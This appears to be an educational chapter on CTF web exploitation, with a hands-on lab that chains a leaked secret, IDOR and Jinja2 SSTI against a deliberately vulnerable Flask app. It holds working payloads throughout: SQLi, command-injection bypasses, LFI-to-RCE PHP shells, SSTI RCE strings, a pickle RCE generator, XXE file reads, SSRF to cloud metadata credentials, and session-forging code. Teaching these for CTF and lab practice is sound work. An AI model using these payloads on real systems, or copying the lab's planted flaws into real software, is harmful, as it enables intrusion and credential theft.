




Web is the category most beginners start with, for good reasons: the tools are familiar, the feedback is fast, and you have already studied the underlying vulnerabilities in Notebooks 13 and 21–27. What that background does *not* give you is the CTF-specific skill, which is not knowing what SSTI is — it is recognising, from a rendered page and a stack trace, that this particular text box is a Jinja2 sink, in the ninety seconds before you have wasted an hour on SQL injection that was never there.

So this chapter is not a re-teaching of web vulnerabilities. It assumes you know, from the earlier notebooks, roughly how each class works. It concentrates on the three things CTF web actually demands: **recognition** (what kind of bug is this, from thin evidence), **the CTF-flavoured payload** (the specific string that works on the small curated app, which is often not the one you would use on a real target), and **chaining** (because a modern web challenge is rarely one bug — it is an information disclosure that reveals an endpoint that has an injection that reaches code execution).

The recurring discipline is the one from Chapter 1's Part 6: enumerate before theorising, form a falsifiable hypothesis, test it cheaply. Web is the category where enumeration pays off most reliably, because so much is sitting in view — in the source, in the headers, in a file the author forgot to remove.

## Why This Matters

Web is the largest attack surface in the real world and the largest category in most CTFs, so competence here has the widest transfer. But the deeper reason to take CTF web seriously is that it trains **chaining**, and chaining is the skill that separates a scanner operator from someone who finds real bugs.

A scanner finds an individual flaw. A person who has solved a hundred CTF web challenges has internalised a different question — not "is this vulnerable to X" but "what does *this* bug let me reach, and what is vulnerable *there*." That shift, from isolated findings to attack paths, is exactly what Notebook 27's API work and every real bug bounty depends on. The Magecart skimmers, the SSRF-to-metadata cloud takeovers, the deserialization RCEs that make the news — all of them are chains, and the muscle for building chains is best trained on the compressed, fast-feedback version that CTF web provides.

The honest caveat from Chapter 1 applies with force here. CTF web bugs are *placed*, *findable*, and *reachable* — the author guarantees a path exists. Real web assessment is mostly ruling things out, and the SSTI payload that works instantly on a curated challenge often does nothing on a real target with a hardened template sandbox. Use CTF web to build recognition and chaining; do not mistake the curated reachability for how real targets behave.

## Part 1: Anatomy of a Web Challenge and the First Five Minutes

You are given a URL, sometimes source code, sometimes both. Before forming any theory, run the same enumeration every time. It is cheap, it is mechanical, and it ends an astonishing number of challenges before they begin.



The routine, concretely:

```bash
TARGET=http://challenge.example:8000

# Headers reveal the stack and the session mechanism.
curl -sI "$TARGET"

# The three files authors forget.
for f in robots.txt sitemap.xml .git/HEAD .env backup.zip index.php.bak; do
  code=$(curl -s -o /dev/null -w '%{http_code}' "$TARGET/$f")
  echo "$code  $f"
done

# Directory fuzzing -- the single most productive web-CTF action.
ffuf -u "$TARGET/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/common.txt \
     -mc 200,301,302,401,403 -s
```

What each finding means:

- **`X-Powered-By: PHP/7.x`** or **`Server: Werkzeug`** (Flask) tells you the template engine, the deserialization format, and the inclusion tricks that are even possible. This one header narrows the whole challenge.
- **`.git/HEAD` returns 200** — the entire source history is downloadable with `git-dumper`, and the flag or a hardcoded secret is frequently in a deleted commit.
- **A `.bak` or `.swp` or `~` file** hands you source for a page that was meant to be a black box.
- **HTML comments** contain hints, credentials, and TODO notes constantly. `curl -s "$TARGET" | grep -i -E 'todo|password|flag|debug|<!--'`.

Do this first, every time. Part 6's methodology is "enumerate before theorising," and web is where that pays the most.

## Part 2: Client-Side Trust — The Bug That Should Not Exist But Always Does

A whole tier of beginner web challenges is built on the same mistake: **the server trusts something the client controls.**

**Auth decided in JavaScript.** The page checks a password in a script, or reveals content by un-hiding a `div`, or gates an admin panel on a `localStorage` flag. The "fix" is to read the JavaScript, which contains the password, or the endpoint, or the check you can simply skip by calling the API directly.

```javascript
// Seen in countless beginner challenges -- the check is client-side.
if (document.getElementById('pw').value === atob('c3VwZXJzZWNyZXQ=')) {
  showFlag();   // 'supersecret' is right there in the page
}
```

**Hidden fields and disabled buttons.** A `<input type="hidden" name="price" value="100">` or a `disabled` admin button is a client-side control. Change it in devtools, or send the request directly.

**Client-side redirects gating content.** The page loads the secret content and *then* a script redirects you away if you are not logged in. The content already arrived — watch the network tab or disable JavaScript and it is yours.

The general recognition: **anything the browser can see or change, the server must not trust.** In a CTF, the appearance of a client-side check is nearly always the vulnerability, not an obstacle to it. Open devtools, read the source, and call the endpoint the JavaScript calls, without the JavaScript.

## Part 3: Cookies and JWTs

Sessions are a rich CTF surface because the token often carries data the author assumed you could not read or change.

**Plain or encoded cookies.** A cookie of `dXNlcj1ndWVzdA==` is base64 of `user=guest`. Change it to `user=admin`, re-encode, replace. Authors love this one. Always decode every cookie: `echo <value> | base64 -d`.

**JWTs** are the dominant CTF session bug, and the attacks are specific and worth memorising because they recur constantly.



The four that appear most:

**`alg: none`.** If the server accepts it, set the header algorithm to `none`, change the payload to `{"user":"admin"}`, and drop the signature entirely. A shocking number of homegrown validators accept this.

**Weak HMAC secret (HS256).** The signature is `HMAC-SHA256(header.payload, secret)`. If the secret is weak, crack it offline — the token is its own oracle, no server interaction needed:

```bash
# jwt_tool or hashcat mode 16500 crack the secret from the token alone.
hashcat -m 16500 token.jwt /usr/share/wordlists/rockyou.txt
# Then re-sign an admin payload with the recovered secret.
```

**RS256 → HS256 confusion.** If the server was written to accept both and uses the *same key material*, you can sign a token with HS256 using the server's **public** RSA key as the HMAC secret — which you can obtain, because it is public. The server verifies HS256 with the public key it thinks is for RS256, and it matches.

**`kid` / `jku` header injection.** The `kid` (key id) selects which key verifies the token; if it is used to build a file path or a SQL query, it is injectable (`kid: ../../dev/null` to use an empty key, or SQLi to control the returned key). The `jku`/`x5u` headers point to the JWKS URL — if the server fetches it without an allowlist, point it at a key set you control.

Always start by decoding the token (no secret needed) and reading the `alg` and any unusual header fields. The bug is usually visible before you send a single request.

## Part 4: IDOR and Forced Browsing

**Insecure Direct Object Reference** is the simplest chaining primitive and one of the most common CTF web bugs: an identifier in the request maps to an object with no authorisation check.

```
GET /api/orders/1337   -> your order
GET /api/orders/1      -> someone else's order   <- IDOR
GET /api/user/2/flag   -> increment until the flag appears
```

Recognition and exploitation: any numeric or sequential identifier in a URL or body is a candidate. Increment it, decrement it, set it to 0, set it to 1, try other users' IDs. Where IDs are UUIDs, look for a listing endpoint that leaks them, because the authorisation gap is usually still there once you know the value. Chapter 1's point applies: in a CTF this is a placed, reachable bug; on a real target it is simultaneously a broken-object-level-authorization finding (Notebook 27) and a privacy incident (Notebook 42, Chapter 6).

**Forced browsing** is IDOR's sibling: the admin panel exists at `/admin` with no link to it, the flag is at `/flag.txt`, the debug endpoint is at `/debug`. This is why Part 1's directory fuzzing is the highest-yield action in web CTF — a large fraction of challenges are won by `ffuf` finding a route nobody linked.

## Part 5: SQL Injection, CTF Flavour

You know SQLi from Notebook 23. The CTF flavour differs in two ways: the payloads are aimed at *extracting a specific flag* rather than mapping a schema, and the challenges deliberately restrict the technique so you cannot just run `sqlmap`.

**Authentication bypass** — the classic first payload:

```
username: admin'--
password: anything
-->  SELECT * FROM users WHERE user='admin'--' AND pass='anything'
```

**UNION-based extraction** when output is reflected. Determine the column count with `ORDER BY n` until it errors, then union in the data:

```sql
' UNION SELECT 1,flag,3 FROM flags-- -
' UNION SELECT group_concat(name),group_concat(sql),3 FROM sqlite_master-- -
```

**Boolean blind** when only "different / same" is observable:

```
id=1 AND (SELECT substr(flag,1,1) FROM flags)='f'  -> page changes if true
```

**Time-based blind** when there is no observable difference at all:

```sql
id=1' AND (SELECT CASE WHEN (substr(flag,1,1)='f')
           THEN randomblob(100000000) ELSE 0 END)-- -   -- SQLite delay trick
1' AND SLEEP(5)-- -                                      -- MySQL
1'; SELECT pg_sleep(5)-- -                               -- Postgres
```

Two CTF-specific notes. First, **identify the database** from the error messages or the stack header (SQLite for small Flask/PHP challenges, MySQL/Postgres for larger ones) because the injection syntax and the metadata tables differ — SQLite exposes `sqlite_master`, MySQL exposes `information_schema`. Second, **`sqlmap` is allowed in most CTFs but often overkill and sometimes forbidden**; when the challenge restricts characters or keywords, you are meant to bypass the filter by hand (`/**/` for spaces, `UnIoN` for case filters, `||` for concatenation), and a tool will not do that thinking for you.

## Part 6: NoSQL, Command, and the Injection Family

**NoSQL injection** (MongoDB) is a CTF favourite because the operator-injection trick is elegant and does not look like SQLi. When the backend does `db.users.find({user: input, pass: input})` and accepts JSON:

```json
{"user": "admin", "pass": {"$ne": ""}}          // password not-equal-empty -> matches
{"user": {"$regex": "^adm"}, "pass": {"$ne":1}} // enumerate via regex
```

Or in URL-encoded form where the framework parses `user[$ne]=1` into an operator. Recognition: a JSON API with login, or parameters that the framework turns into nested objects.

**Command injection** — user input reaches a shell. The metacharacters and their bypasses:

```bash
; ls          | ls          `ls`         $(ls)        && ls        %0a ls
# spaces filtered?  ->  ${IFS}  or  {cat,flag.txt}  or  <flag.txt
# keyword filtered? ->  c''at  or  /bin/c?t  or  $(rev<<<txt.galf)
```

The CTF twist is almost always a **filter** to bypass, and the recognition is a feature that clearly runs a system command — a ping tool, a DNS lookup, an image converter, a "run tests" button.

## Part 7: File Inclusion to RCE

**Local File Inclusion (LFI)** — a parameter names a file that gets included or read. The escalation ladder is worth knowing in order, because CTF authors build challenges around specific rungs:

```
?page=../../../../etc/passwd                     # confirm traversal
?page=php://filter/convert.base64-encode/resource=index.php   # read PHP source
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NdKTs/Pg==  # data wrapper -> RCE
?page=/var/log/apache2/access.log                # log poisoning: inject PHP via User-Agent, then include
?page=php://filter/.../php://filter chain        # advanced: filter chain to RCE, no file needed
```

The **php://filter base64 read** is the single most useful LFI technique in CTFs: it hands you the source of the very PHP files you are attacking, which usually contains the flag path or the next vulnerability. **Log poisoning** turns file *read* into code *execution*: send a request with `<?php system($_GET['c']); ?>` in the User-Agent, which the web server writes to its access log, then include the log file.

**Remote File Inclusion (RFI)** — rarer, requires `allow_url_include`, but where present you include `http://your-server/shell.txt` directly.

## Part 8: Server-Side Template Injection

SSTI is the highest-value web-CTF bug because it goes straight to RCE, and it is a recognition game. The detection probe is universal:

```
{{7*7}}     -> renders 49?  template injection.  Renders {{7*7}}?  not this.
${7*7}      -> some engines (FreeMarker, Thymeleaf)
#{7*7}      -> Ruby / others
{7*7}       -> older / custom
```

Once `{{7*7}}` returns `49`, identify the engine and reach for the RCE payload. The two you will meet most:

**Jinja2 (Python / Flask)** — by far the most common in CTFs:

```python
{{7*7}}                                      # confirm -> 49
{{ config }}                                 # often leaks the SECRET_KEY
{{ ''.__class__.__mro__[1].__subclasses__() }}   # find a class with os access
{{ cycler.__init__.__globals__.os.popen('id').read() }}   # short, reliable RCE
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```

**Twig (PHP)**:

```
{{7*7}}                                       # confirm -> 49
{{ _self.env.registerUndefinedFilterCallback("system") }}{{ _self.env.getFilter("id") }}
```

The recognition sequence is always the same: a page reflects your input *after processing* (a name in a greeting, a search term echoed, a customised email), the arithmetic probe confirms it, and then the engine determines the payload. Because filters are common in CTF SSTI, know the bypasses — attribute access via `['__class__']` when dots are filtered, `request` and `|attr()` in Jinja2 when keywords are blocked.

## Part 9: Deserialization, XXE, and SSRF

**Insecure deserialization** — the app unserializes attacker-controlled data. Recognition: a base64 blob in a cookie or parameter that decodes to a serialized object.

- **PHP**: a string like `O:4:"User":2:{...}` is `serialize()` output. Craft a **POP chain** using classes with useful `__wakeup`/`__destruct` methods; `phpggc` generates these.
- **Python pickle**: a blob starting with `\x80` is pickle. A pickle with a `__reduce__` returning `(os.system, ('cmd',))` executes on load — one of the most reliable RCEs in CTF.

```python
# The canonical Python pickle RCE payload generator.
import pickle, base64, os
class E:
    def __reduce__(self): return (os.system, ('cat flag.txt',))
print(base64.b64encode(pickle.dumps(E())).decode())
```

**XXE** — XML input with external entities enabled. Reads files and reaches internal services:

```xml
<?xml version="1.0"?>
<!DOCTYPE r [<!ENTITY x SYSTEM "file:///etc/passwd">]>
<r>&x;</r>
<!-- blind / OOB variant exfiltrates via a parameter entity to your server -->
```

Recognition: any endpoint that accepts XML — a SOAP API, a SAML blob, an SVG upload, an office-document parser.

**SSRF** — the server makes a request to a URL you control. The CTF payoffs:

```
http://localhost/admin              # reach an internal-only endpoint
http://169.254.169.254/latest/meta-data/iam/security-credentials/   # cloud creds
gopher://127.0.0.1:6379/_...        # gopher to talk raw Redis/other protocols
file:///etc/passwd                  # some fetchers accept file://
```

Recognition: a feature that fetches a URL — a webhook, a "preview this link," an image-from-URL, a PDF generator, an avatar importer. SSRF to the **cloud metadata endpoint** (`169.254.169.254`) is the classic escalation and connects directly to Notebook 37.

## Part 10: The Modern Additions — Race Conditions and Prototype Pollution

**Race conditions.** When a check and an action are not atomic — "you may redeem this coupon once," "you may withdraw if balance permits" — firing many requests simultaneously can slip multiple actions between the check and the update. The modern technique is the **single-packet attack**: send many requests such that they arrive in the same instant, defeating server-side jitter. Burp's Turbo Intruder implements it. Recognition: a one-time action, a limit, or a balance.

**Prototype pollution (JavaScript/Node).** Injecting `__proto__` into a merge or a query parser pollutes `Object.prototype`, so a property appears on *every* object. In a CTF this typically flips an `isAdmin` check or reaches a gadget that turns pollution into RCE:

```
?__proto__[isAdmin]=true
{"__proto__": {"polluted": true}}
```

Recognition: a Node app that deep-merges JSON, a query string with bracket notation, an object built from user-controlled keys.

## Part 11: Chaining — How Real Challenges Are Built

A well-designed web challenge is a **chain**, and the skill is seeing the whole path rather than each link. A representative shape:



Each link is a bug you already know; the challenge is the *sequence*. The way you find the sequence is the Chapter 1 methodology applied repeatedly: enumerate (find the `.git`), read what you got (the secret and the route), form the next hypothesis (the cookie is forgeable), test it, and let each success reveal the next surface. Keep notes as you go — three links deep, you will not remember the SECRET_KEY you found twenty minutes ago, and the notes are your writeup.

## Part 12: Hands-On Lab — An Auth-Bypass → IDOR → SSTI-RCE Chain

### 12.1 What we are building

A deliberately vulnerable Flask app with a three-link chain, solved end to end. It exercises Part 2 (client-trusted secret), Part 4 (IDOR), and Part 8 (Jinja2 SSTI to RCE).



Python 3 and Flask only.

### 12.2 The vulnerable app

```python
# vuln.py -- a deliberately vulnerable CTF-style web app. Lab use only.
from flask import Flask, request, session, render_template_string, redirect

app = Flask(__name__)
# Link 1: the secret is weak AND leaked (see the /about comment). Both are the bug.
app.secret_key = "s3cr3t"

USERS = {1: {"name": "guest", "admin": False},
         2: {"name": "administrator", "admin": True, "note": "flag{ch41n3d_thr33_bugs}"}}

@app.route("/")
def index():
    return ('<h1>Portal</h1><a href="/about">about</a> '
            '<a href="/login?id=1">login as guest</a>')

@app.route("/about")
def about():
    # Link 1 (disclosure): author left the signing secret in an HTML comment.
    return "<h1>About</h1><!-- TODO remove before prod: SECRET_KEY=s3cr3t -->"

@app.route("/login")
def login():
    uid = int(request.args.get("id", 1))
    session["uid"] = uid                 # trusts the id; cookie is signed with the weak key
    return redirect("/profile")

@app.route("/profile")
def profile():
    uid = session.get("uid")
    if not uid:
        return redirect("/login?id=1")
    return f"<h1>Hello {USERS[uid]['name']}</h1>"

@app.route("/admin/user/<int:uid>")
def admin_user(uid):
    me = session.get("uid")
    # Link 2 (IDOR + broken access control): only checks that SOMEONE is logged in,
    # then serves ANY user's record, and renders their 'note' as a template.
    if not me:
        return "login first", 401
    u = USERS.get(uid)
    if not u:
        return "no such user", 404
    # Link 3 (SSTI): the note is rendered through the template engine.
    greeting = request.args.get("greeting", "Viewing " + u["name"])
    tmpl = f"<h1>{greeting}</h1><p>note: {u.get('note','(none)')}</p>"
    return render_template_string(tmpl)   # user-controlled 'greeting' -> Jinja2 SSTI

if __name__ == "__main__":
    app.run(port=5000)
```

```bash
pip install flask > /dev/null
python3 vuln.py &
sleep 2
echo "app up"

# Sample output:
# app up
```

### 12.3 Link 1 — enumerate, find the leaked secret

Part 1's routine finds it immediately:

```bash
curl -s localhost:5000/about

# Sample output:
# <h1>About</h1><!-- TODO remove before prod: SECRET_KEY=s3cr3t -->
```

There is the signing key, in a comment — the disclosure that makes the whole chain possible. (Even without the comment, `s3cr3t` falls to `flask-unsign --unsign --wordlist rockyou.txt` in seconds; the challenge planted both the weak key and the leak.)

### 12.4 Link 2 — forge an admin session and hit the IDOR

Flask session cookies are signed, not encrypted, so with the key we forge one. Then the `/admin/user/<id>` route is an IDOR: it only checks that *someone* is logged in, then serves *any* user.

```python
# forge.py -- mint a Flask session cookie with the leaked key.
from flask import Flask
app = Flask(__name__); app.secret_key = "s3cr3t"
from flask.sessions import SecureCookieSessionInterface
s = SecureCookieSessionInterface().get_signing_serializer(app)
print(s.dumps({"uid": 1}))   # even as guest uid=1, the IDOR lets us read uid=2
```

```bash
COOKIE=$(python3 forge.py)
echo "forged: ${COOKIE:0:40}..."

# Sample output:
# forged: eyJ1aWQiOjF9.aBcDeF.xxxxxxxxxxxxxxxxxxxxxxx...

# IDOR: as guest, read the administrator's record (uid=2).
curl -s --cookie "session=$COOKIE" localhost:5000/admin/user/2

# Sample output:
# <h1>Viewing administrator</h1><p>note: flag{ch41n3d_thr33_bugs}</p>
```

In this instance the flag is sitting in the note, but the point of the lab is the third link — proving RCE via the greeting parameter, which is what a harder challenge would require.

### 12.5 Link 3 — confirm and exploit the SSTI

Part 8's probe first:

```bash
# Detection: does the greeting field evaluate templates?
curl -s --cookie "session=$COOKIE" \
  "localhost:5000/admin/user/2?greeting=%7B%7B7*7%7D%7D"

# Sample output:
# <h1>49</h1><p>note: flag{ch41n3d_thr33_bugs}</p>
```

`{{7*7}}` rendered as `49` — Jinja2 SSTI confirmed. Now the RCE payload from Part 8:

```bash
# {{ cycler.__init__.__globals__.os.popen('id').read() }}  URL-encoded
PAYLOAD='{{cycler.__init__.__globals__.os.popen("id").read()}}'
curl -s --cookie "session=$COOKIE" \
  --get --data-urlencode "greeting=$PAYLOAD" \
  localhost:5000/admin/user/2

# Sample output:
# <h1>uid=501(ctf) gid=501(ctf) groups=501(ctf)</h1><p>note: flag{ch41n3d_thr33_bugs}</p>
```

Arbitrary command execution. Read anything on the host:

```bash
PAYLOAD='{{cycler.__init__.__globals__.os.popen("cat /etc/hostname").read()}}'
curl -s --cookie "session=$COOKIE" \
  --get --data-urlencode "greeting=$PAYLOAD" \
  localhost:5000/admin/user/2 | head -1

# Sample output:
# <h1>ctf-lab-host</h1>
```

Three bugs, chained: a disclosed secret let us forge a session, the session reached an IDOR, and the IDOR endpoint rendered a user-controlled template into RCE. No single bug was the whole challenge — which is the entire lesson of Part 11.

```bash
kill %1 2>/dev/null; echo "lab down"

# Sample output:
# lab down
```

### 12.6 Extending the lab

Add a WAF-style filter that blocks `os`, `popen`, `_`, and `.` in the greeting, then defeat it with Jinja2's `['\x5f\x5fclass\x5f\x5f']` attribute-access and `|attr()` bypasses; replace the Flask cookie with a JWT and practise the Part 3 attacks (`alg:none`, HMAC cracking); add a `?file=` LFI on the profile route and read the app source with `php://filter`'s Python equivalent; and — most valuable — write the whole chain up in the Chapter 1 Part 9 format, including the dead ends you hit finding the SSTI engine.

## Part 13: Tooling in CTFs

| Tool | Use in CTF | Caution |
|---|---|---|
| **Burp Suite Community** | Intercept, Repeater, decode, manual fuzzing | Repeater is where most web CTF is actually done |
| **ffuf / gobuster** | Directory and parameter discovery | Highest-yield action; use a good wordlist (SecLists) |
| **sqlmap** | Automated SQLi | Allowed usually, forbidden sometimes; useless against filters |
| **jwt_tool / flask-unsign** | JWT and Flask cookie attacks | jwt_tool automates every Part 3 attack |
| **git-dumper** | Reconstruct source from an exposed `.git` | First thing to run when `.git/HEAD` is 200 |
| **CyberChef** | Decode the encoding layers | Local copy; the "Magic" recipe auto-detects |
| **Turbo Intruder** | Race conditions, single-packet attack | The tool for Part 10 races |
| **phpggc** | PHP deserialization POP chains | Generates the gadget you cannot craft by hand |

Two habits. **Live in Burp Repeater** — most web-CTF iteration is send, tweak, resend, and Repeater is far faster than curl for that loop while keeping a history you can turn into a writeup. And **let ffuf run in the background** while you read source; directory discovery is asynchronous to your thinking and often surfaces the winning route while you are looking elsewhere.

## Part 14: Common Pitfalls

**Skipping enumeration and jumping to a favourite bug.** The `.git` leak, the `.bak` file, and the `/admin` route are found by the boring routine, not by intuition. Run Part 1 every time.

**Not reading the source when it is provided.** If the challenge gives you code, the bug is *in the code*. Read it before touching the app.

**Trying real-world payloads on a curated app.** The CTF SSTI payload is short and specific; the enormous polyglot you would fire at a real target often fails on a small challenge. Confirm the engine, then use its payload.

**Assuming SQL when it is NoSQL, or command injection when it is SSTI.** Misidentifying the category burns hours. The probes (`{{7*7}}`, `'`, `{"$ne":""}`, `;id`) are cheap — run them to *identify* before committing.

**Ignoring the stack header.** `Server: Werkzeug` means Jinja2 and pickle; `X-Powered-By: PHP` means Twig, `serialize()`, and `php://filter`. One header narrows everything.

**Forgetting to decode cookies.** Every cookie, every time: base64-decode it. Half of beginner session challenges end there.

**Not keeping notes during a chain.** Three links deep you will lose the secret you found in link one. Notes are both your working memory and your writeup.

**Treating the CTF SSTI sandbox as reality.** Real template engines are often sandboxed and the instant RCE does not land. CTF web trains recognition and chaining, not the assumption that every `{{7*7}}` reaches a shell.

**Brute-forcing when it is forbidden.** Hammering a login is usually against the rules and usually not the intended path. If it needs brute force, the challenge is scoped to make it feasible.

## Final Revision / Summary

- CTF web is not re-teaching vulnerabilities; it is **recognition** (what bug, from thin evidence), the **CTF-flavoured payload** (short and specific to the curated app), and **chaining** (most challenges are three or four bugs in sequence).
- **The first five minutes are fixed and mechanical**: view source and comments, response headers (the stack), `robots.txt`/`.git`/`.bak`/`.env`, what the JavaScript fetches, and every cookie decoded. Then `ffuf` for directories and parameters — the single highest-yield action.
- **Client-side trust** is the bug tier that should not exist but always does: auth in JavaScript, hidden fields, `disabled` buttons, content that loads before a redirect hides it. Anything the browser can see or change, the server must not trust.
- **Cookies**: decode every one. **JWTs** have specific, memorable attacks — `alg:none`, weak HMAC secret (crack offline from the token alone), RS256→HS256 confusion with the public key, and `kid`/`jku` header injection. Decode and read `alg` before sending anything.
- **IDOR and forced browsing** are the simplest chaining primitives — increment identifiers, and `ffuf` the routes nobody linked.
- **SQLi, CTF flavour**: `admin'--` bypass, `UNION SELECT` extraction, boolean and time-based blind with the exact per-database syntax. Identify the DB (SQLite `sqlite_master` vs MySQL `information_schema`); bypass filters by hand when tools are blocked.
- The **injection family**: NoSQL operator injection (`{"$ne":""}`), command injection with `${IFS}`/`{cat,flag}` filter bypasses. Recognition is a feature that clearly runs a query or a command.
- **File inclusion**: `php://filter` base64 to read source is the most useful LFI move; log poisoning turns read into execution; `data://` wrapper is direct RCE.
- **SSTI** is the highest-value web bug: `{{7*7}}`→`49` confirms it, then the engine (usually Jinja2) determines a short reliable RCE payload. Know the filter bypasses.
- **Deserialization** (PHP `serialize()` POP chains via phpggc; Python pickle `__reduce__` RCE), **XXE** (file read and OOB, on any XML/SVG/SAML endpoint), and **SSRF** (to `169.254.169.254` for cloud creds, `gopher://` for raw protocols) round out the classic set.
- **Modern additions**: race conditions via the single-packet attack (Turbo Intruder), and prototype pollution (`__proto__[isAdmin]=true`) in Node deep-merges.
- **Real challenges chain**: disclosure → forged session → IDOR → SSTI → RCE. Each link is a known bug; the skill is the sequence, found by enumerating, reading what you got, and forming the next hypothesis. Keep notes.
- **Tooling**: live in Burp Repeater, run ffuf in the background, `git-dumper` on an exposed `.git`, `jwt_tool` for every JWT attack, CyberChef for encodings. sqlmap is allowed-but-overkill and useless against filters.
- The CTF caveat holds hardest in web: bugs are placed, findable, and reachable, and the instant-RCE SSTI often fails against a real sandboxed engine. Use CTF web to build recognition and chaining.

## Cheat Sheet / Quick Reference

**First five minutes**

```bash
curl -sI TARGET                                  # stack + Set-Cookie
for f in robots.txt .git/HEAD .env index.php.bak backup.zip; do
  curl -s -o /dev/null -w "%{http_code} $f\n" TARGET/$f; done
curl -s TARGET | grep -iE 'todo|pass|flag|<!--'  # comments
ffuf -u TARGET/FUZZ -w common.txt -mc 200,301,302,401,403
```

**JWT attacks**

```
decode header+payload (no secret needed) -> read alg
alg:none        -> strip signature, forge payload
HS256 weak      -> hashcat -m 16500 token rockyou.txt
RS256->HS256    -> sign HS256 with the server's PUBLIC key
kid / jku       -> path traversal / SQLi / point jku at your JWKS
```

**Injection probes (run to IDENTIFY, cheaply)**

```
SQL     '  and  ' OR '1'='1  and  admin'--
NoSQL   {"$ne":""}   user[$ne]=1
cmd     ;id   |id   $(id)   `id`
SSTI    {{7*7}}  ${7*7}  #{7*7}   -> 49 means yes
XXE     endpoint accepts XML/SVG/SAML?
SSRF    feature fetches a URL?
```

**SQLi extraction**

```sql
' ORDER BY 3-- -                         -- find column count
' UNION SELECT 1,flag,3 FROM flags-- -    -- dump
' UNION SELECT group_concat(sql),2,3 FROM sqlite_master-- -   -- SQLite schema
1' AND SLEEP(5)-- -                        -- time-based blind (MySQL)
```

**LFI ladder**

```
../../../../etc/passwd                                  # traversal
php://filter/convert.base64-encode/resource=index.php   # read source
data://text/plain;base64,<b64 php>                      # RCE
/var/log/apache2/access.log  (+ PHP in User-Agent)      # log poisoning
```

**SSTI → RCE (Jinja2)**

```python
{{7*7}}                                              # confirm
{{ config }}                                         # leak SECRET_KEY
{{ cycler.__init__.__globals__.os.popen('id').read() }}   # RCE
# dots filtered? -> {{ ''['\x5f\x5fclass\x5f\x5f'] }}  and |attr()
```

**Deserialization RCE**

```
PHP     O:4:"User":... -> phpggc gadget chain
Python  blob starts \x80 -> pickle __reduce__ -> (os.system,('cmd',))
```

**SSRF payloads**

```
http://169.254.169.254/latest/meta-data/    # AWS creds
http://localhost/admin                        # internal endpoint
gopher://127.0.0.1:6379/_<redis proto>        # raw protocol
```

**Tools**

```
Burp Repeater | ffuf (background) | git-dumper | jwt_tool | flask-unsign
CyberChef (Magic) | Turbo Intruder (races) | phpggc | sqlmap (if allowed)
```

## Practice Labs & Resources

**Structured web training (do these)**
- **PortSwigger Web Security Academy** — free, comprehensive, and the definitive source for every bug in this chapter. Work SQLi, XSS, auth, access control, SSRF, XXE, deserialization, prototype pollution, and the newer race-condition labs.
- **picoCTF Web Exploitation** — the beginner on-ramp; every technique here appears at a gentle difficulty.
- **Root-Me Web-Server and Web-Client** sections — enormous breadth of permanent challenges.

**Hands-on**
- Extend the lab: add a WAF filter and defeat it with Jinja2 attribute-access bypasses; swap in a JWT and run the Part 3 attacks; add an LFI and read source via a filter wrapper.
- Solve five PortSwigger SSTI labs, then five SSRF labs, and write each chain up.
- Set up `flask-unsign` and `jwt_tool` and practise forging sessions until it is muscle memory.
- Play a live CTFtime event and attempt every web challenge; read the writeups for the ones you miss.

**Deliberate practice**
- Build the recognition reflex: for ten random challenges, write down your category hypothesis from the first five minutes only, then check whether you were right.
- Practise chaining explicitly: take any two labs and imagine how an author would connect them, then look for challenges that do.
- Keep a personal payload file of the short, reliable CTF versions — the `{{7*7}}` probe, the pickle RCE, the LFI ladder — and add to it every event.

**Further reading**
- PayloadsAllTheThings (GitHub) — the reference payload collection for every category here. Learn to navigate it fast.
- HackTricks web section — dense, practical, and organised the way CTF web actually flows.
- PortSwigger Research blog — the single packet attack, prototype pollution, and web cache deception all originated or matured there.
